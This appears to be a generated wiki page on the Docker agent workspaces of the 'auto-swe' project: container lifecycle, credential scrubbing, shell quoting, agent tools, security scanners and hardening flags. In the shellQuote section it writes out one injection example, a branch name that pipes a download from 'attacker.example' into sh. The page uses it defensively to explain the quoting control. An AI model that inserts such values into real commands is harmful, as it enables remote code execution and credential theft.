

# Docker-in-Docker Agent Workspaces

> Indexed at commit `b1d8930` on 2026-09-08 · [view on GitHub](https://github.com/yorch/auto-swe/tree/b1d8930)

## Relevant source files

- [packages/worker/src/activities/workspace.ts](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts)
- [packages/worker/src/lib/ephemeralContainer.ts](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/ephemeralContainer.ts)
- [packages/worker/src/activities/shellStep.ts](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/shellStep.ts)
- [packages/worker/src/activities/containerStep.ts](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/containerStep.ts)
- [packages/worker/src/agents/implementer.ts](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/implementer.ts)
- [packages/worker/src/agents/toolOutputOffload.ts](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/toolOutputOffload.ts)
- [packages/worker/src/agents/preWriteSecurityCheck.ts](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/preWriteSecurityCheck.ts)
- [packages/worker/src/lib/shellCommandScanner.ts](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/shellCommandScanner.ts)
- [packages/worker/src/lib/sensitiveFileScanner.ts](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/sensitiveFileScanner.ts)
- [packages/worker/src/lib/execUtils.ts](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/execUtils.ts)
- [packages/worker/src/lib/redactToken.ts](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/redactToken.ts)
- [packages/worker/Dockerfile](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/Dockerfile)
- [packages/shared/src/config/registry.ts](https://github.com/yorch/auto-swe/blob/b1d8930/packages/shared/src/config/registry.ts)
- [scripts/check-invariants.mjs](https://github.com/yorch/auto-swe/blob/b1d8930/scripts/check-invariants.mjs)

## Overview

Agent code never runs in the worker process. Every activity that lets a model read, write, or execute anything provisions a Docker container, hands the model a set of tools that translate to `docker exec`, and destroys the container when the activity ends. The worker reaches the Docker daemon through the host socket mounted at `/var/run/docker.sock` and a Docker CLI binary copied from the official image into the runtime stage, so containers are siblings of the worker rather than nested children ([packages/worker/Dockerfile#L91-L92](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/Dockerfile#L91-L92)).

Two container runtimes exist side by side, with different threat models. `createWorkspace` builds the long-lived **agent workspace**: bridge networking, a writable container layer, a cloned repository, and a credential-free `origin`. `runEphemeralContainer` builds the **locked-down sandbox** used for author-supplied shell and container steps: `--network=none` by default, `--read-only` root, and a single bind-mounted volume ([packages/worker/src/lib/ephemeralContainer.ts#L1-L17](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/ephemeralContainer.ts#L1-L17)).

Sources: [packages/worker/src/activities/workspace.ts:L274-L545](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L274-L545) [packages/worker/src/lib/ephemeralContainer.ts:L1-L64](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/ephemeralContainer.ts#L1-L64) [packages/worker/Dockerfile:L86-L95](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/Dockerfile#L86-L95)

## Container Lifecycle

The container is named `workspace-<random-hex>`, built from eight random bytes, so two concurrent activities on the same host never collide ([packages/worker/src/activities/workspace.ts#L355-L356](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L355-L356)). Every branch of the provisioning path either reaches the returned handle or force-removes the container; there is no state in which a half-provisioned container survives the function.

Sources: [packages/worker/src/activities/workspace.ts:L319-L495](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L319-L495)

## Creation and Resource Caps

`createWorkspace` resolves the base image and the container caps from the database-backed workflow defaults on every call, then validates the image against `DOCKER_IMAGE_REF_RE` before it reaches a command line ([packages/worker/src/activities/workspace.ts#L320-L338](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L320-L338)). A caller-supplied `image` wins over the configured default, which is why the argument must be passed as `repo.executorImage ?? undefined` and never as `?? '<literal>'` — a literal is a value, not a fallback, and silently makes the operator's configured image unreachable. That rule is machine-checked: `scripts/check-invariants.mjs` fails the build when any `createWorkspace(…)` call writes a string literal in the image slot ([scripts/check-invariants.mjs#L101-L120](https://github.com/yorch/auto-swe/blob/b1d8930/scripts/check-invariants.mjs#L101-L120)).

| Cap | Docker flag | Default | Source |
| --- | --- | --- | --- |
| Memory | `--memory` | `4g` | `WorkflowDefaults.workspaceMemory` |
| CPU | `--cpus` | `2` | `WorkflowDefaults.workspaceCpus` |
| Processes | `--pids-limit` | `512` | `WorkflowDefaults.workspacePidsLimit` |
| Base image | image argument | `node:24-alpine` | `WorkflowDefaults.workspaceImage` |

`workspaceMemory` is a free-form string from the database, so it is shell-quoted at the call site; the numeric caps cannot carry shell metacharacters ([packages/worker/src/activities/workspace.ts#L382-L388](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L382-L388)). The eval harness is the one deliberate exception to the configured image: it pins `EVAL_WORKSPACE_IMAGE` as a named constant so a benchmark score stays comparable against its own history ([packages/worker/src/activities/evalHarness.ts#L38-L56](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/evalHarness.ts#L38-L56)).

Sources: [packages/worker/src/activities/workspace.ts:L133-L138](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L133-L138) [packages/worker/src/activities/workspace.ts:L284-L388](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L284-L388) [scripts/check-invariants.mjs:L44-L125](https://github.com/yorch/auto-swe/blob/b1d8930/scripts/check-invariants.mjs#L44-L125)

## Cloning and Checkout

The clone URL arrives carrying a credential from the source-control provider. `splitCloneCredential` strips it out first and unconditionally, returning a scrubbed URL plus an `AUTHORIZATION: basic …` header value; the strip happens before the decode that can throw, so a token containing a bare `%` costs the auth header rather than the secret ([packages/worker/src/activities/workspace.ts#L84-L117](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L84-L117)). The clone then runs against the clean URL with the credential injected for that one call through `git -c http.extraheader`, so the token never appears on a command line and never lands in `.git/config` ([packages/worker/src/activities/workspace.ts#L427-L435](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L427-L435)).

Three checkout shapes exist. A pinned `checkoutSha` clones full history and cuts the working branch from that exact commit. `existingBranch` shallow-clones the named remote branch directly, which is what the node-level eval gate scores. The default path shallow-clones `defaultBranch` at depth 50 and cuts a fresh local branch from its HEAD ([packages/worker/src/activities/workspace.ts#L452-L465](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L452-L465)). After any of them, `origin` is explicitly reset to the clean URL as belt and braces, so a future change to the clone invocation cannot silently persist a token where an agent could `cat .git/config` it back out.

The optional `full_checkout` tier clones read-only reference repositories into `/workspace/deps/<name>`, capped at four, each sanitized to a single path segment and scrubbed the same way. A dependency that fails to clone has its half-clone removed and does not fail the run ([packages/worker/src/activities/workspace.ts#L191-L272](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L191-L272)).

Sources: [packages/worker/src/activities/workspace.ts:L51-L131](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L51-L131) [packages/worker/src/activities/workspace.ts:L191-L272](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L191-L272) [packages/worker/src/activities/workspace.ts:L423-L487](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L423-L487)

## Command Execution

The returned `Workspace` exposes four execution paths, each working directory-pinned to `/workspace/target-repo` ([packages/worker/src/activities/workspace.ts#L495-L544](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L495-L544)).

| Method | Semantics | Why it exists |
| --- | --- | --- |
| `exec` | Resolves stdout, rejects on non-zero exit, 2-minute default timeout | Git and file operations |
| `execCapture` | Returns `{exitCode, stdout, stderr}` without throwing, 10-minute default | Gates and the `bash` tool interpret exit codes themselves |
| `execStdin` | Streams content over `docker exec -i` | A single argv value is capped by the kernel at roughly 128 KiB; a pipe is not |
| `gitAuthed` | Injects the credential per call via `-c http.extraheader` | Network git operations against a scrubbed `origin` |

All four are asynchronous and pump Temporal heartbeats on a 30-second timer while the child process runs. The synchronous predecessors blocked the worker event loop and starved heartbeats for every concurrent activity ([packages/worker/src/lib/execUtils.ts#L28-L49](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/execUtils.ts#L28-L49)). A timeout kills the child and reports exit code 124; a spawn failure reports 127 ([packages/worker/src/lib/execUtils.ts#L78-L177](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/execUtils.ts#L78-L177)).

Failures on the credentialed paths run through `redactExecError`, which scrubs the token, the full header, and the header's bare base64 value out of `message`, `stdout`, `stderr`, and `cmd` before the error can reach Temporal history ([packages/worker/src/lib/redactToken.ts#L41-L68](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/redactToken.ts#L41-L68)).

Sources: [packages/worker/src/activities/workspace.ts:L16-L45](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L16-L45) [packages/worker/src/lib/execUtils.ts:L1-L249](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/execUtils.ts#L1-L249) [packages/worker/src/lib/redactToken.ts:L1-L68](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/redactToken.ts#L1-L68)

## Cleanup

`destroy()` runs `docker rm -f` and swallows the error when the container is already gone ([packages/worker/src/activities/workspace.ts#L497-L503](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L497-L503)). Every caller must invoke it from a `finally` block, because a leaked container holds its memory and CPU reservation on the Docker host until an operator notices. Six activities create workspaces and all six do this: `executeImplementation` ([#L441-L458](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/executeImplementation.ts#L441-L458)), `implementerSession`, `qualityGates` ([#L221-L222](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/qualityGates.ts#L221-L222)), `standaloneGateRunner`, `evalHarness`, and both callers of `provisionMergeWorkspace` in `decomposition` ([#L166-L167](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/decomposition.ts#L166-L167)).

Provisioning failures are handled separately, inside `createWorkspace` itself: the clone and configuration steps sit in a `try`/`catch` that force-removes the container before rethrowing, so repeated failures cannot accumulate orphans ([packages/worker/src/activities/workspace.ts#L437-L487](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L437-L487)). The ephemeral runners take the same posture from the other direction: `docker run --rm` removes the container on exit, and a `finally` issues an idempotent `docker rm -f` for the case where the host process was killed mid-spawn ([packages/worker/src/lib/ephemeralContainer.ts#L277-L300](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/ephemeralContainer.ts#L277-L300)). Shell steps and container steps additionally remove their throwaway Docker volume in a `finally` ([packages/worker/src/activities/shellStep.ts#L452-L454](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/shellStep.ts#L452-L454), [packages/worker/src/activities/containerStep.ts#L138-L144](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/containerStep.ts#L138-L144)).

Sources: [packages/worker/src/activities/workspace.ts:L437-L503](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L437-L503) [packages/worker/src/lib/ephemeralContainer.ts:L270-L300](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/ephemeralContainer.ts#L270-L300) [packages/worker/src/activities/shellStep.ts:L333-L455](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/shellStep.ts#L333-L455)

## `shellQuote`: the Injection Boundary

`shellQuote` is nine characters of implementation and the single control that keeps model-generated text from being read as shell syntax. It wraps a value in single quotes and rewrites every embedded single quote as `'\''`, which POSIX shells parse as a literal ([packages/worker/src/activities/workspace.ts#L47-L49](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L47-L49)).

Every `docker exec … sh -c` in `createWorkspace` passes its whole command through it, so the outer shell receives one argument no matter what the inner command contains. Beyond that, the values that must route through it are the ones that cross a trust boundary:

- **Branch names, refs, and commit SHAs** on every clone, checkout, fetch, reset, and push. These come from ticket identifiers and spec JSON, not from a fixed vocabulary ([packages/worker/src/activities/workspace.ts#L452-L475](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L452-L475)).
- **Clone URLs and the auth header.** `gitWithAuthHeader` quotes the header value itself, because callers embed the result in a shell script ([packages/worker/src/activities/workspace.ts#L119-L131](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L119-L131)).
- **Every path the implementer's tools touch**, after `safePath` normalizes it: `cat`, `mkdir -p`, and the `cat >` redirection in `writeFile` ([packages/worker/src/agents/implementer.ts#L111-L161](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/implementer.ts#L111-L161)).
- **The tool-output offload path and directory** ([packages/worker/src/agents/toolOutputOffload.ts#L166-L172](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/toolOutputOffload.ts#L166-L172)).
- **Every argument to `runDocker` in the shell step**, including the branch and both clone URLs inside the `sh -c` script that clones and scrubs ([packages/worker/src/activities/shellStep.ts#L92-L109](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/shellStep.ts#L92-L109), [#L196-L212](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/shellStep.ts#L196-L212)).
- **Image names and memory literals** in the `docker run` line, on top of the format validation they already passed ([packages/worker/src/activities/workspace.ts#L336-L388](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L336-L388)).

A caller that interpolates an unquoted value into one of these command strings does not produce a cosmetic defect. A branch name of the form `x'; curl attacker.example | sh; '` becomes a second command running with the workspace's network access and, on the paths that carry one, its credential. The failure is silent under every other gate: the types are all `string`, the command still runs, and the tests still pass. Two defenses sit behind it rather than in place of it — `safeDepDirName` reduces a dependency name to a single path segment that cannot contain a separator or a leading dash ([packages/worker/src/activities/workspace.ts#L204-L215](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L204-L215)), and `--` terminates option parsing everywhere a URL or image could otherwise be read as a flag.

Sources: [packages/worker/src/activities/workspace.ts:L47-L49](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L47-L49) [packages/worker/src/activities/workspace.ts:L119-L272](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L119-L272) [packages/worker/src/activities/shellStep.ts:L92-L221](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/shellStep.ts#L92-L221) [packages/worker/src/agents/implementer.ts:L111-L161](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/implementer.ts#L111-L161)

## Tools That Execute Inside the Container

The implementer agent's four workspace tools are Mastra `createTool()` definitions bound to one `Workspace` handle, each translating to a `docker exec` ([packages/worker/src/agents/implementer.ts#L45-L54](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/implementer.ts#L45-L54)).

| Tool | Container command | Guard before execution |
| --- | --- | --- |
| `readFile` | `cat <path>` | `safePath` |
| `writeFile` | `mkdir -p` then `cat > <path>` over stdin | `safePath`, sensitive-file scan, pre-write content check |
| `listDirectory` | `ls -la <path>` | `safePath` |
| `bash` | `execCapture` with a 10-minute cap | `safePath` not applicable; shell command scan |

`safePath` normalizes the relative path and rejects anything absolute, anything starting with `..`, and any path containing a NUL, a quote, or a backslash ([packages/worker/src/agents/implementer.ts#L30-L43](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/implementer.ts#L30-L43)). `bash` logs a token-redacted audit line naming the container and the command before the command runs ([packages/worker/src/agents/implementer.ts#L264-L269](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/implementer.ts#L264-L269)).

Output from `bash`, `readFile`, and `listDirectory` over `workspace.maxToolOutputChars` (20,000 by default) is written in full to `/workspace/.tool-output/` and replaced with a head-and-tail excerpt plus a pointer. That directory is a sibling of `/workspace/target-repo`, deliberately outside the git working tree, so an offloaded blob can never be swept into `git add -A` and reach the pull request diff ([packages/worker/src/agents/toolOutputOffload.ts#L6-L13](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/toolOutputOffload.ts#L6-L13)). The excerpt keeps the tail as well as the head because for a test run or a build the decisive line is usually at the end ([packages/worker/src/agents/toolOutputOffload.ts#L109-L149](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/toolOutputOffload.ts#L109-L149)). A failed offload write falls back to plain truncation rather than returning the unbounded blob ([packages/worker/src/agents/toolOutputOffload.ts#L160-L186](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/toolOutputOffload.ts#L160-L186)).

Sources: [packages/worker/src/agents/implementer.ts:L30-L324](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/implementer.ts#L30-L324) [packages/worker/src/agents/toolOutputOffload.ts:L1-L186](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/toolOutputOffload.ts#L1-L186) [packages/shared/src/config/registry.ts:L289-L302](https://github.com/yorch/auto-swe/blob/b1d8930/packages/shared/src/config/registry.ts#L289-L302)

## Pre-Write and Pre-Execution Scanners

Three scanners sit between the model and the container, all of them synchronous with the tool call.

**Sensitive-file policy on writes.** `checkSensitiveFilePath` runs the normalized path against database-backed `SENSITIVE_FILE` patterns, testing each pattern against both the basename and the full path so a rule works at any directory depth ([packages/worker/src/lib/sensitiveFileScanner.ts#L104-L138](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/sensitiveFileScanner.ts#L104-L138)). It is a hard block, and it fails closed: a policy that cannot be loaded, a pattern that burns its execution budget, and a quarantined pattern all block the write, because a scan that did not complete cannot say the path is clean ([packages/worker/src/lib/sensitiveFileScanner.ts#L36-L85](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/sensitiveFileScanner.ts#L36-L85)). The path is normalized before matching so `./x/../.env` and `.env` are the same file to the policy as they are to the shell ([packages/worker/src/lib/sensitiveFileScanner.ts#L87-L102](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/sensitiveFileScanner.ts#L87-L102)).

**The same policy on shell write targets.** A `bash` call reaches the same filesystem, so without a second enforcement point `echo secret > .env` walks straight past the write tool's guard. `extractShellWriteTargets` pulls destinations out of redirections, `tee`, `dd of=`, and the last operand of `cp`/`mv`/`install`, and runs them all through the sensitive-file policy in one batch ([packages/worker/src/lib/shellCommandScanner.ts#L18-L87](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/shellCommandScanner.ts#L18-L87)). `extractShellWrites` additionally recovers inline content from `echo`/`printf` redirects and here-documents and applies the same critical-severity content rules ([packages/worker/src/lib/shellCommandScanner.ts#L89-L141](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/shellCommandScanner.ts#L89-L141)). Both are heuristics over command text, not a shell parser; the code states plainly that they raise the floor and are not a containment boundary.

**Pre-write content rules.** `checkContentSecurity` runs nine OWASP-aligned rules line by line over the content being written — hardcoded AWS keys, secrets, private keys, JWT secrets, raw SQL interpolation, command injection, dynamic evaluation, weak hashes, wildcard CORS ([packages/worker/src/agents/preWriteSecurityCheck.ts#L39-L119](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/preWriteSecurityCheck.ts#L39-L119)). Only a CRITICAL violation blocks; HIGH and MEDIUM findings let the write through with a warning prepended to the tool result ([packages/worker/src/agents/preWriteSecurityCheck.ts#L188-L232](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/preWriteSecurityCheck.ts#L188-L232)). Test, spec, mock, and fixture paths are skipped entirely ([packages/worker/src/agents/preWriteSecurityCheck.ts#L120-L142](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/preWriteSecurityCheck.ts#L120-L142)).

**Shell command patterns.** `scanShellCommand` runs `SHELL_COMMAND` patterns over the whole command in overlapping windows, never a truncated prefix — 20,000 characters of leading comment would otherwise push a forbidden command past a plain cap and out of sight ([packages/worker/src/lib/shellCommandScanner.ts#L143-L207](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/shellCommandScanner.ts#L143-L207)). Blocks are returned to the agent as a readable message rather than thrown, so the model can self-correct rather than seeing a generic tool error. Pattern execution is bounded by `workspace.regexScanBudgetMs`, an ADMIN-only, platform-wide setting defaulting to 250 milliseconds ([packages/shared/src/config/registry.ts#L314-L330](https://github.com/yorch/auto-swe/blob/b1d8930/packages/shared/src/config/registry.ts#L314-L330)).

Sources: [packages/worker/src/lib/sensitiveFileScanner.ts:L1-L157](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/sensitiveFileScanner.ts#L1-L157) [packages/worker/src/lib/shellCommandScanner.ts:L1-L240](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/shellCommandScanner.ts#L1-L240) [packages/worker/src/agents/preWriteSecurityCheck.ts:L1-L255](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/agents/preWriteSecurityCheck.ts#L1-L255)

## Workspace Hardening

The agent workspace keeps bridge networking and a writable container layer, because the implementer needs outbound git and package installs. Everything else is stripped ([packages/worker/src/activities/workspace.ts#L358-L388](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L358-L388)):

| Measure | Flag | Effect |
| --- | --- | --- |
| Drop all capabilities | `--cap-drop=ALL` | No Linux capability the workspace does not need |
| Block privilege escalation | `--security-opt=no-new-privileges` | setuid binaries cannot raise privileges |
| Pin DNS | `--dns=1.1.1.1 --dns=8.8.8.8` | Long clones survive a flaky embedded forwarder |
| Blackhole metadata hostnames | `--add-host=metadata.google.internal:0.0.0.0` | Hostname route to cloud credentials removed |
| Resource caps | `--memory` / `--cpus` / `--pids-limit` | Bounds a runaway build and blunts fork bombs |

The hostname block does not cover the metadata service's link-local IP. Closing that gap needs `NET_ADMIN`, which conflicts with `--cap-drop=ALL`, so a throwaway sidecar joins the workspace's network namespace via `--network container:<name>`, installs blackhole routes for `169.254.169.254`, `169.254.170.2`, and `fd00:ec2::254`, then exits. The routes persist in the shared namespace after the sidecar is gone, so the long-lived agent container never holds the capability ([packages/worker/src/activities/workspace.ts#L149-L189](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L149-L189)). The route adds are verified rather than assumed: a final `grep` for a blackhole route makes a runtime whose `ip` applet lacks blackhole support exit non-zero instead of silently no-opping. The whole step is best-effort and non-fatal, controlled by the ADMIN-only `workspace.blockMetadata` setting ([packages/worker/src/activities/workspace.ts#L390-L414](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L390-L414), [packages/shared/src/config/registry.ts#L240-L255](https://github.com/yorch/auto-swe/blob/b1d8930/packages/shared/src/config/registry.ts#L240-L255)).

The ephemeral runner used for author-supplied steps is stricter still. `lockdownFlags` is the single place its isolation is defined, shared by the foreground and sidecar runners so the two cannot drift: `--network=none` unless the author opts into egress, `--read-only` root, `/tmp` on a 64 MB tmpfs, `--pids-limit=256`, `--cap-drop=ALL`, `--security-opt=no-new-privileges`, and one bind-mounted `/workspace` ([packages/worker/src/lib/ephemeralContainer.ts#L115-L183](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/ephemeralContainer.ts#L115-L183)). Host bind-mount sources are checked against a blocklist of system roots and the Docker daemon's own state before they can be mounted ([packages/worker/src/lib/ephemeralContainer.ts#L76-L113](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/ephemeralContainer.ts#L76-L113)). Egress, when enabled, is filtered by pointing DNS at an unreachable address and adding `--add-host` entries only for allowlisted names, which does not block direct-by-IP connections ([packages/worker/src/lib/ephemeralContainer.ts#L242-L268](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/ephemeralContainer.ts#L242-L268)).

Shell steps carry one deliberate consequence of the credential scrub. Because `origin` is cleaned immediately after the clone into the volume, an author-supplied command cannot run its own authenticated fetch or push. The supported way to persist work is to leave changes in the working tree, which a separate finalize container commits and pushes, authenticating for that call alone ([packages/worker/src/activities/shellStep.ts#L166-L221](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/shellStep.ts#L166-L221), [#L246-L303](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/shellStep.ts#L246-L303)).

Sources: [packages/worker/src/activities/workspace.ts:L139-L189](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L139-L189) [packages/worker/src/activities/workspace.ts:L356-L414](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/workspace.ts#L356-L414) [packages/worker/src/lib/ephemeralContainer.ts:L66-L268](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/ephemeralContainer.ts#L66-L268) [packages/worker/src/activities/shellStep.ts:L1-L26](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/shellStep.ts#L1-L26)

## Container Steps

`runContainerStep` reuses the same ephemeral lockdown for coded workflow steps, passing resolved node inputs as JSON on the `CONTAINER_STEP_INPUT` environment variable and binding the result at `nodes.<id>.output.result`. Untrusted code never enters the worker process. Three transports return the result: a single JSON object on stdout, a newline-delimited event stream whose last `result` event wins, or a detached HTTP sidecar published on loopback only ([packages/worker/src/activities/containerStep.ts#L10-L57](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/containerStep.ts#L10-L57)). The image is re-validated against the team's allowlist at run time even though the workflow dispatcher already checked it, so a stale spec cannot bypass the policy ([packages/worker/src/activities/containerStep.ts#L64-L74](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/containerStep.ts#L64-L74)). Each step gets a throwaway empty volume for `/workspace`, removed in a `finally`.

Sources: [packages/worker/src/activities/containerStep.ts:L1-L212](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/activities/containerStep.ts#L1-L212) [packages/worker/src/lib/ephemeralContainer.ts:L205-L240](https://github.com/yorch/auto-swe/blob/b1d8930/packages/worker/src/lib/ephemeralContainer.ts#L205-L240)

## Related Pages

- Parent: [Temporal Worker](./4-temporal-worker.md)
- Sibling: [Temporal Workflows](./4.1-temporal-workflows.md)
- Sibling: [Activities](./4.2-activities.md)
- Sibling: [Agent Layer](./4.3-agent-layer.md)
- Sibling: [Observability and Cost](./4.5-observability-and-cost.md)
